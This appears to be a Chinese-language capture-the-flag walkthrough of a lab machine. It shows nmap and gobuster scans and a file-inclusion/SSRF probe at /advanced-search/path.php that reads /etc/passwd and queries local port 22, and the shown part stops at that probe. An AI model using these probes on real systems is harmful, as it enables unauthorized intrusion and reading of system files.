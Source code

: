 ### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 10.0.0.105 -oN nmap.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到22和80端口开放，访问下80端口

```
http://10.0.0.105
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

首页只有一张图片，做个目录扫描

```
gobuster dir -u http://10.0.0.105 -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现/advanced-search目录，访问看看

```
http://10.0.0.105/advanced-search/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提示可以加载任何我想要的页面，随便提交点什么

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

看返回的链接应该就是文件包含，试试伪协议

```
http://10.0.0.105/advanced-search/path.php?path=file:///etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

果然可以读取，看看内容有两个用户可以登录 ，把用户名保存下来。对advanced-search做目录扫描未发现有可利用的路径

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

继续挖掘advanced-search

```
view-source:http://10.0.0.105/advanced-search/path.php?path=127.0.0.1:22
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
